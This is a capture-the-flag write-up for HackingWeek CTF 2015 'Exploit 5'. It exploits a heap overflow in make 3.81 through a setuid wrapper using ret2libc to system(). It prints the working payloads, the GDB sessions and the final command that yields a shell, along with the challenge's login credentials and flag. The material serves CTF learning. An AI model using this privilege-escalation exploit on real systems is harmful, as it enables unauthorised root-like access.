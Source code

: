 # HackingWeek CTF 2015: Exploit 5

**Category:** exploit |
**Points:** 6106 |
**Solves:** 16 |
**Description:**

> Connectez-vous en tant que <code>guest</code> (mot de passe: <code>shu1eKoo</code>) sur la machine <code>37.187.22.21</code>.<br>
> Vous trouverez la clef de validation cachée dans le fichier <code>/home/exploit05/.secret</code>.
>
> ```
> $> ssh guest@37.187.22.21
> ```

___

## Write-up


For this exploit05, we have the package « make 3.81 », which is vulnerable to an heap-overflow (cf : https://www.exploit-db.com/exploits/34164/), and « safe-run » (suid binary that launch make). We'll use this one to try the heap overflow :


```
$ guest@ns314076:/home/exploit05/project$ ./safe-run $(python -c 'print "A"*4000 + "B"*96 + "CCCC" * 4')

make: stat: /home/exploit05/project/AAAAAA...AAAABBBBB...BBBBCCCCCCCCCCCCCCC: File name too long
Segmentation fault
```

Nice, let's analyse this segfault in GDB :

```
$ guest@ns314076:/home/exploit05/project$ gdb -q -ex "source /tmp/kaluche/peda/peda.py" --args safe-run
gdb-peda$ r $(python -c 'print "A"*4000 + "B"*96 + "CCCC" * 4')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x43434343 ('CCCC')
ECX: 0x2f2f2f2f ('////')
EDX: 0x2f2f ('//')
ESI: 0x43434343 ('CCCC')
EDI: 0xbfff6b10 --> 0xbfff7dd4 --> 0x80811c8 ("/home/exploit05/project/", 'A' <repeats 176 times>...)
EBP: 0xbfff6aa8 --> 0xbfff8df8 --> 0xbfffb148 --> 0xbfffd488 --> 0x0 
ESP: 0xbfff6a54 --> 0x792e ('.y')
EIP: 0xb7ee54d2 (<strrchr+34>:	mov    dl,BYTE PTR [esi])
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
```
<br><br>

Ok, we don't control EIP :'(

After some tries, i finally get this : 


```
gdb-peda$ r $(python -c 'print "A"*4000 + "B"*124 + "C" * 4')
...
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x42424242 ('BBBB')
ECX: 0x807feb8 --> 0x160 
EDX: 0x807ff98 --> 0x732e ('.s')
ESI: 0x42424242 ('BBBB')
EDI: 0x42424242 ('BBBB')
EBP: 0x42424242 ('BBBB')
ESP: 0xbfff6400 --> 0x792e ('.y')
EIP: 0x43434343 ('CCCC')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x43434343
[------------------------------------stack-------------------------------------]
0000| 0xbfff6400 --> 0x792e ('.y')
0004| 0xbfff6404 --> 0x0 
0008| 0xbfff6408 --> 0xbfff6458 --> 0x0 
0012| 0xbfff640c --> 0x8084cb8 ('A' <repeats 200 times>...)
0016| 0xbfff6410 --> 0x8084cb8 ('A' <repeats 200 times>...)
0020| 0xbfff6414 --> 0x0 
0024| 0xbfff6418 --> 0x0 
0028| 0xbfff641c --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
** 0x43434343 in ?? () **
```
<br><br>

EIP is now controlled !
Let's see what protection are enabled :

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
gdb-peda$ aslr
ASLR is OFF
gdb-peda$ 

```
<br><br>

So we only need to bypass NX. To do this, we will store « sh ; » in our buffer, change EIP with the address of « system », add JUNK bytes, and add the address of our buffer. Here we go :

```
gdb-peda$ r $(python -c 'print "sh;".ljust(4000,"A") + "B"*124 + "C"*4')
Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()

gdb-peda$ x system
0xb7ea8c30 <system>:	0x890cec83
```
<br><br>

** SYSTEM > \x30\x8c\xea\xb7 **

```
Stopped reason: SIGSEGV
0x43434343 in ?? ()
gdb-peda$ searchmem sh;
Searching for 'sh;' in: None ranges
Found 16 results, display max 16 items:
 [heap] : 0x8077958 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x80799e8 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x807f1c0 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x8080200 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x8081240 ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x808329f ("sh;", 'A' <repeats 197 times>...)
 [heap] : 0x80842e7 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff4967 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff5a50 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff6cc0 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff7db0 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfff9020 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffa110 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffb380 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffc460 ("sh;", 'A' <repeats 197 times>...)
[stack] : 0xbfffefbe ("sh;", 'A' <repeats 197 times>...)
gdb-peda$ 
```
<br><br>

** BUFFER « sh ; » ADDRESS >  \x58\x79\x07\x08 **

We got all we need. 

```
guest@ns314076:/home/exploit05/project$ ./safe-run $(python -c 'print "sh;".ljust(4000,"A") + "B"*124 + "\x30\x8c\xea\xb7" + "JUNK" + "\x58\x79\x07\x08"')

…
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB0���JUNKX: File name too long
sh-4.2$ id
uid=1000(guest) gid=1000(guest) euid=1005(exploit05) egid=1005(exploit05) groups=1005(exploit05),1000(guest)
sh-4.2$ whoami
exploit05
sh-4.2$ cd /home/exploit05/
sh-4.2$ cat .secret
EiN5ohqu5Ush-4.2$ 
```

__FLAG__: EiN5ohqu5U

And thx to RageYL for the help ;)

Enjoy,<br>
\- [Elkaluche](https://twitter.com/Elkaluche)
